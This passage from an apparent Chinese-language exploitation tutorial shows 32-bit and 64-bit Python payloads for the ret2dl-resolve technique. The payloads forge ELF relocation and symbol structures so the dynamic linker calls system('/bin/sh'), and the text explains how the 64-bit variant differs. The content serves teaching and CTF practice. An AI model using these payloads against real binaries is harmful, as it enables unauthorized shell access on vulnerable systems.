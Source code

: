 32 位下可以构造如下 payload：

```python
payload = (
	((
		'A' * 18 + # padding
		p32(buf + 1024 + 4) # set esp=buf+1024
	).ljust(1024, '\x00') + # buf+1024
		p32(plt0) +
		p32(buf + 2048 - relplt) + # set reloc_arg=buf+2048
		p32(0xdeadbeef) +
		p32(buf + 2048 + 36)
	).ljust(2048, '\x00') + # buf+2048
	# Elf32_Rel
	p32(buf) + # r_offset
	p32(0x7 | (((buf + 2048 + 8 + 4 - dynsym) / 16) << 8)) + # r_info
	p32(0) + # padding
	# Elf32_Sym <= buf+2048+12
	p32(buf + 2048 + 28 - dynstr) + # st_name
	p32(0) + # st_value
	p32(0) + # st_size
	p32(0x12) + # st_info
	# buf+2048+28
	'system\x00\x00' +
	'/bin/sh\x00'
)
```

64 位有一些地方不太一样，比如说结构体的大小等，其中 `reloc_arg` 的宏定义也和 32 位不同，上文也提到了。不过 `Elf64_Sym` 结构体的大小还是跟 32 位下的 `Elf32_Sym` 一样，只是几个变量的顺序有所改变，需要修改。同时，64 位下会产生上面提到的 Segmentation Fault。由于 64 位的 Function Call 用的是 `__libc_csu_init` 中的通用 Gadget，设置第一个参数 rdi 时只能传低 32 位，所以导致不能直接 `memcpy` 到 `link_map` 上来改 `l->l_info[VERSYMIDX (DT_VERSYM)]`，所以借助了 `read` 和 `write` 来实现：

```python
reloc_arg = (buf + 2048 + 16 - relplt) / 24
payload = (
	((
		'A' * 14 + # padding
		p64(buf + 1024 - 8) + # set rbp=buf+1024-8
		p64(leave_ret) # stack pivot ; set rsp=buf+1024
	).ljust(1024, '\x00') + # buf+1024
		memcpy(buf + 1024 + 160, got1, 8) + # buf+1024+120
		write(1, 0, 0x1c8+8) + # buf+1024+240
		memcpy(buf + 1024 + 400, got1, 8) + # buf+1024+360
		read(0, 0, 0x1c8+8) + # buf+1024+480 ; l->l_info[VERSYMIDX (DT_VERSYM)]=NULL
		p64(pop_rdi_ret) +
		p64(buf + 2048 + 56) +
		p64(plt0) +
		p64(reloc_arg) # set reloc_arg
	).ljust(2048, '\x00') +  # buf+2048
	16 * '\x00' + # padding
	# Elf64_Rela
	p64(buf) + # r_offset
	p64(0x7 | (((buf + 2048 + 32 - dynsym) / 24) << 32)) + # r_info
	# Elf64_Sym <= buf+2048+32
	p32(buf + 2048 + 48 - dynstr) + # st_name
	p32(0x12) + # st_info
	p32(0) +
	p32(0) +
	# buf+2048+48
	'system\x00\x00' +
	'/bin/sh\x00'
)
```
